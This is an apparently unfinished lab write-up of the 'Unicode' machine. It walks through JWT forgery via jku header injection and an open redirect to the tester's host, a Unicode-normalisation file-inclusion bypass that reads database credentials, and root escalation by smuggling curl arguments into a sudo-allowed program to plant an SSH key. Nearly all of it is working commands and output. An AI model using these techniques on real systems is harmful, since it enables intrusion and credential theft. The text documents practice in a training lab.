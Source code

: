 
# Unicode

- Walkthrough
- Mitigrations
- References


## Walkthrough

The tester started by performing an nmap scan in order to uncover the running services with open ports.

```
# Nmap 7.93 scan initiated Sun Dec  3 13:31:08 2023 as: nmap -p 80,22 -A -oA service_scan 10.10.11.126
Nmap scan report for 10.10.11.126
Host is up (0.067s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fda0f7939ed3ccbdc23c7f923570d777 (RSA)
|   256 8bb6982dfa00e5e29c8faf0f449903b1 (ECDSA)
|_  256 c989273e91cb51276f3989361041df7c (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: 503
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  3 13:31:18 2023 -- 1 IP address (1 host up) scanned in 9.46 seconds
```

The scan showed that port 80 was open and hosting a threat analisys company. Its possible to create an account on the site that brought up a report upload page and also revealed that the site is using json web token(JWT) for authenication. 

insert screen on jwk ------------------------


when the JWK is decoded it shows that the JWK uses the jku header that points to the URL containing the JWKS file containing the public key for verifying the token. 


screen of decoded jwk --------------


If it is possible to change the jku header to point to an attacker controlled server an malicious public key can subsitiued to allow the malicious actor to forge a ticket and have the server verify it on the malicious actors server. This server has controls in place to prevent the server from verifying the token on another server. 

The tester used gobuster to bruteforce the web sites directories and found a "redirect" endpoint. 

```
└──╼ [★]$ gobuster dir -t 1 -u http://10.10.11.126/  -w '/home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/common.txt' --exclude-length 9294
===============================================================
Gobuster v3.1.0

/checkout             (Status: 308) [Size: 264] [--> http://10.10.11.126/checkout/]
/dashboard            (Status: 308) [Size: 266] [--> http://10.10.11.126/dashboard/]
/debug                (Status: 308) [Size: 258] [--> http://10.10.11.126/debug/]    
/display              (Status: 308) [Size: 262] [--> http://10.10.11.126/display/]  
/error                (Status: 308) [Size: 258] [--> http://10.10.11.126/error/]    
/internal             (Status: 308) [Size: 264] [--> http://10.10.11.126/internal/] 
/login                (Status: 308) [Size: 258] [--> http://10.10.11.126/login/]    
/logout               (Status: 308) [Size: 260] [--> http://10.10.11.126/logout/]   
/pricing              (Status: 308) [Size: 262] [--> http://10.10.11.126/pricing/]  
/redirect             (Status: 308) [Size: 264] [--> http://10.10.11.126/redirect/] 
/register             (Status: 308) [Size: 264] [--> http://10.10.11.126/register/] 
/upload               (Status: 308) [Size: 260] [--> http://10.10.11.126/upload/]     
                                                                                    
===============================================================
2023/12/07 23:53:49 Finished
===============================================================

```

Using the redirect endpoint it was possible for the tester to set the jku header to point to the redirect endpoint and set it to point to the testers host. The "jwt_tools.py" is able to do this by creating a custom JWK, which the tester then hosted using a python http server. The tester changed the JWK to point to the testers host via the redirect "http://hackmedia.htb/static/../redirect?url=10.10.14.6/jwttool_custom_jwks.json". The tester also changed the user claim part of payload section to admin.
```
┌─[192.168.93.129]─[rang3r@parrot]─[~]
└──╼ [★]$ python  '/home/rang3r/Documents/Tools/tools/web/jwt4/jwt_tool-master/jwt_tool.py'   eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiam9obiJ9.fUXM6uoYSqrXOEEggGoVxSw5q53TeukNNAa0wREc9_dOqPUEr1F2SBsgFdu4P18PNE4yWVYeuSexsGEL3vwWYEKE4awLbzkJnPQPj2_qF3pyVKX0NYNRI-LjpIriPZ6Z-FgnoRo47vEKQG2yMLLSmaI8FS7wrpR7OL42I3USiBh3qPBz26ZwZmtwh7b12vyaFWRsBcybq0-3I-np8eg4DQS51_ZMMNvNxv3VIF8UD3PtBr3hK1iviyfK9ZiQbgiV8SKjfnpi3rat1NQcJRJ50A3VcbbHZZ2pqe-iYruXUZf8anz4PGODYXg3m7aEScBKK8eeqiZ0rKt7gT4lrkrp7A  -X s -ju http://hackmedia.htb/static/../redirect?url=10.10.14.6/jwttool_custom_jwks.json  -I -pc user -pv admin  

<snip>

Original JWT: 

Paste this JWKS into a file at the following location before submitting token request: http://hackmedia.htb/static/../redirect?url=10.10.14.6/jwttool_custom_jwks.json
(JWKS file used: /home/rang3r/.jwt_tool/jwttool_custom_jwks.json)
/home/rang3r/.jwt_tool/jwttool_custom_jwks.json
jwttool_628f71f241a933abf519c578de4e8a42 - Signed with JWKS at http://hackmedia.htb/static/../redirect?url=10.10.14.6/jwttool_custom_jwks.json
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdD91cmw9MTAuMTAuMTQuNi9qd3R0b29sX2N1c3RvbV9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiYWRtaW4ifQ.hyY-UHi_VvIfqMcM0yefE80UNOa6bOUpPOYACvbzSBCucnu-cwiCsTTQD1bTb3GDReMyytRPNY0h10PAeSW3ssLRE6UtLXDP0uXFBS_h0ArWYwfhgskcfFaPqS5Q7UvjSp9v7G0lfzUSTDdIFKSGn9ErPUVZn4DFkFaDd6lvgnpeAukCmXuP96_0dbTgZ56wgkVwWC01pKHtcm1bweMBW0OyJKvjkI1Gi_EOoTMExZichPV8vvJCB8xfa5OMvrLEaT7uB_xQ-gSuF3TCz5GkZ-7sAQcdN88cqOt1KxdPEpsI3hjVAsrVFW5jivD8XMka0o9qJFnR98jj9L5lSPaDDA

```
The tester then set up the http server where the json file was located. The tester pasted over the old JWK in the storage sectrion of the browser and refreshed the page. 

```
┌─[192.168.93.129]─[rang3r@parrot]─[~/.jwt_tool]
└──╼ [★]$ sudo python3 -m  http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.126 - - [08/Dec/2023 23:14:25] "GET /jwttool_custom_jwks.json HTTP/1.1" 200 -
```

With admin access, it was possible to use the display endpoint. The endpoint was well filtered however the tester was able to bypass the filter using unicode characters, replacing "." with "‧" allowing the tester to perform a local file inclusion attack. Using this bypass the tester was able to read the source of the web app. The tester discovered the app.py file. 


```
└──╼ [★]$ curl  http://10.10.11.126/display/?page=﹒﹒/app.py -H "Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdD91cmw9MTAuMTAuMTQuNi9qd3R0b29sX2N1c3RvbV9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiYWRtaW4ifQ.hyY-UHi_VvIfqMcM0yefE80UNOa6bOUpPOYACvbzSBCucnu-cwiCsTTQD1bTb3GDReMyytRPNY0h10PAeSW3ssLRE6UtLXDP0uXFBS_h0ArWYwfhgskcfFaPqS5Q7UvjSp9v7G0lfzUSTDdIFKSGn9ErPUVZn4DFkFaDd6lvgnpeAukCmXuP96_0dbTgZ56wgkVwWC01pKHtcm1bweMBW0OyJKvjkI1Gi_EOoTMExZichPV8vvJCB8xfa5OMvrLEaT7uB_xQ-gSuF3TCz5GkZ-7sAQcdN88cqOt1KxdPEpsI3hjVAsrVFW5jivD8XMka0o9qJFnR98jj9L5lSPaDDA" | grep db.yaml
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  9738  100  9738    0     0  61937      0 --:--:-- --:--:-- --:--:-- 62025
db=yaml.load(open('db.yaml'))
```

The file contained the file name containing the sql credentials.  

```
┌─[192.168.93.129]─[rang3r@parrot]─[~/Projects/machines/unicode]
└──╼ [★]$ curl  http://10.10.11.126/display/?page=﹒﹒/db.yaml -H "Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdD91cmw9MTAuMTAuMTQuNi9qd3R0b29sX2N1c3RvbV9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiYWRtaW4ifQ.hyY-UHi_VvIfqMcM0yefE80UNOa6bOUpPOYACvbzSBCucnu-cwiCsTTQD1bTb3GDReMyytRPNY0h10PAeSW3ssLRE6UtLXDP0uXFBS_h0ArWYwfhgskcfFaPqS5Q7UvjSp9v7G0lfzUSTDdIFKSGn9ErPUVZn4DFkFaDd6lvgnpeAukCmXuP96_0dbTgZ56wgkVwWC01pKHtcm1bweMBW0OyJKvjkI1Gi_EOoTMExZichPV8vvJCB8xfa5OMvrLEaT7uB_xQ-gSuF3TCz5GkZ-7sAQcdN88cqOt1KxdPEpsI3hjVAsrVFW5jivD8XMka0o9qJFnR98jj9L5lSPaDDA" 
mysql_host: "localhost"
mysql_user: "code"
mysql_password: "B3stC0d3r2021@@!"
mysql_db: "user"

```

Using these crentials it was possible to SSH  into the unicode host.

```
┌─[192.168.93.129]─[rang3r@parrot]─[~]
└──╼ [★]$ ssh code@10.10.11.126
code@10.10.11.126's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

<snip>

code@code:~$ id
uid=1000(code) gid=1000(code) groups=1000(code)
code@code:~$ hostname
code
code@code:~$ 

```

The code user was able to run the /usr/bin/treport command as root.


```
code@code:~$ sudo -l 
Matching Defaults entries for code on code:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User code may run the following commands on code:
    (root) NOPASSWD: /usr/bin/treport

```

The "treport" program is used to create, download and read reports. The program uses the curl command to download reports. The command has filter but can be bypassed using brackets. The tester used the program to download the testers public key into the root account's ssh "authorized_keys" file. THe tester had to set up a python http server to host the public key.

```
code@code:~$ sudo /usr/bin/treport
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
Enter your choice:3
Enter the IP/file_name:{10.10.14.6:8081/id_rsa.pub,-o,/root/.ssh/authorized_keys}
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   567  100   567    0     0   8462      0 --:--:-- --:--:-- --:--:--  8462
Enter your choice:

```

```
┌─[192.168.93.129]─[rang3r@parrot]─[~]
└──╼ [★]$ ssh root@10.10.11.126
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

<snip>

root@code:~# id
uid=0(root) gid=0(root) groups=0(root)
root@code:~# hostname
code
root@code:~# 

```

once the public key had been place the tester could SSH into the host as root.


## Mitigations 

## References

- https://jwt.io/
- https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection
- https://github.com/ticarpi/jwt_tool/
- https://0xacb.com/normalization_table
- https://qaz.wtf/u/convert.cgi
